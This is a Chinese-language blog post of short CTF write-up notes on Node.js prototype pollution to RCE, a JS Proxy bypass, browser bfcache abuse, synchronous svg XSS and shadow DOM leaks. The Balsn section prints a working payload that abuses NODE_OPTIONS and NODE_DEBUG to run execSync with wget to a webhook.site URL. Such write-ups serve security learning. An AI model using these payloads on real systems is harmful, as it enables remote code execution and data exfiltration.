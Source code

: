 ```yaml
---
title: 幾個與 Web 跟 JS 相關的 CTF 題目小記
catalog: true
date: 2022-12-08 20:10:44
tags: [Security]
categories: [Security]
---
```


<img src="/img/ctf-js-notes/cover.png" style="display:none">

前陣子有幾個 CTF 都很不錯，像是 SECCON 跟 HITCON，但可惜我前陣子剛好出國玩了，回來以後就懶得寫完整 writeup 了。原本其實連記下來都懶得記，可是一旦時間久了，要找相關的資料就會變得很難找，所以還是決定簡單記一下。

除此之外，順便記一下幾題我覺得以前應該要記下來，但不知道為什麼卻沒記下來的題目。

關鍵字：

1. Node.js prototype pollution gadget to RCE (Balsn CTF 2022 - 2linenodejs)
2. 取得 JS proxy 的原始值 (corCTF 2022 - sbxcalc)
3. 瀏覽器 back 行為的 cache (SECCON CTF 2022 - spanote)
4. 利用 svg 做出同步的 XSS (HITCON CTF 2022)
5. 讀到 shadow DOM 的資料 (HITCON CTF 2022)

<!-- more -->

## Balsn CTF 2022 - 2linenodejs

程式碼十分簡單：

``` js
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});

// index
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

很明顯有個 prototype pollution 的洞，因此這題考的就是你在 node.js 有了 prototype pollution 以後，要怎麼弄到 RCE。

這邊還有一個關鍵是 catch 裡面的 `require('./usage')`

最後一個關鍵是這篇論文：[Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171)，裡面提到很多從原型污染打到 RCE 的案例，然後都有附上 gadget 或是一些提示。

不過論文裡的其中一個洞在這題用的版本已經被修掉了：https://github.com/nodejs/node/blob/v18.8.0/lib/internal/modules/cjs/loader.js#L484

``` js
const { 1: name, 2: expansion = '' } =
    RegExpPrototypeExec(EXPORTS_PATTERN, request) || kEmptyObject;
```

kEmptyObject 是 `ObjectFreeze(ObjectCreate(null))`，所以不會被污染了。

但總之在檔案裡面繼續找一找，就會發現另一個 `trySelf` 的 function 有同個問題，在這裏：https://github.com/nodejs/node/blob/c200106305f4367ba9ad8987af5139979c6cc40c/lib/internal/modules/cjs/loader.js#L454

``` js
const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
```

這邊預設值也用了 `{}`，所以可以透過原型污染去干擾這些值。

下面這一段程式碼，會去載入 `./pwn.js` 而不是 `./usage.js`：

``` js
Object.prototype["data"] = {
  exports: {
    ".": "./pwn.js"
  },
  name: './usage.js'
}
Object.prototype["path"] = './'

require('./usage.js')
```

因此透過原型污染，可以達成 require 任意文件。接下來的任務就是去找出哪個內建文件有可以使用的 payload，隊友找到 `/opt/yarn-v1.22.19/preinstall.js`，最後長這樣：

```js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site/a0beafdc-df63-4804-85a8-7945ad473bf5?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```

別人寫的 writeup：

1. https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs
2. [Node.js require() RCE复现](https://hujiekang.top/2022/10/11/NodeJS-require-RCE/)

### corCTF 2022 - sbxcalc

這題最核心的部分可以看成是這樣：

``` js
var p = new Proxy({flag: window.flag || 'flag'}, {
  get: () => 'nope'
})
```

試問要怎麼拿到被 proxy 擋住的 flag？

答案是 `Object.getOwnPropertyDescriptor`。

`Object.getOwnPropertyDescriptor(p, 'flag')`，這樣就可以拿到原始的值，而不是 proxy 處理後的東西。

作者 writeup: https://brycec.me/posts/corctf_2022_challenges#sbxcalc

### SECCON CTF 2022 Quals - spanote

Chrome 裡面有一種 cache 叫做 back/forward cache，簡稱 bfcache，這詞我還是第一次聽到：https://web.dev/i18n/en/bfcache/

第二個 disk cache 應該大家都比較熟悉了，fetched resourced 會存在裡面。

利用這個 bfcache，可以做出很有趣的行為。

現在有一個 API 是這樣：

``` js
fastify.get("/api/notes/:noteId", async (request, reply) => {
  const user = new User(request.session.userId);
  if (request.headers["x-token"] !== hash(user.id)) {
    throw new Error("Invalid token");
  }
  const noteId = validate(request.params.noteId);
  return user.sendNote(reply, noteId);
});
```

雖然是個 GET，但是會檢查 custom header，因此照理來說直接用瀏覽器訪問是看不了的。

但是搭配剛剛講到的 cache 行為，你可以：

1. 用瀏覽器打開 `/api/notes/id`，出現錯誤畫面
2. 用同一個 tab 去到首頁，此時首頁會用 fetch 搭配 custom header 去抓 `/api/notes/id`，瀏覽器會把結果存在 disk cache 內
3. 上一頁，此時畫面會顯示 disk cache 的結果

就可以用瀏覽器直接瀏覽 cached response，繞過了 custom header 的限制。

整題更詳細的 writeup 可以看這邊：https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote

### HITCON CTF 2022

先貼一下 maple 跟 splitline 的 writeup：

1. https://github.com/maple3142/My-CTF-Challenges/tree/master/HITCON%20CTF%202022
2. https://blog.splitline.tw/hitcon-ctf-2022/

這次只有稍微看了一下 Self Destruct Message 那一題，簡單講一下幾個考點。

第一個是執行 `element.innerHTML = str` 的時候，通常 HTML 裡面有什麼東西都會是非同步執行，例如說：

```js
element.innerHTML = '<img src=x onerror=console.log(1)>'
console.log(2)
```

絕對是先 log 2 再來才是 1。

但如果你這樣子寫：

```js
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

就會很神奇的變成 1 在前面，而且這個 div 甚至不需要放到 DOM 裡面也會有作用。相關的討論可以看這一串：https://twitter.com/terjanq/status/1421093136022048775

再來就是可以利用 error stack 去找出原本的 location，拿到 flag id：

``` js
window.addEventListener('unhandledrejection', e => {
	console.log(e.reason.stack.match(/\/message\/(\w+)/)[1]);
});
```

然後這題也有別的解法，雖然說元素是放在 shadow DOM 裡面，但是可以透過一些 xsleak 去偷出 flag，更完整的研究在這邊：[The Closed Shadow DOM](https://blog.ankursundara.com/shadow-dom/)

類似題目有出現在 DiceCTF 2022，我有寫過一篇心得但是那時候還沒開始標關鍵字：https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/



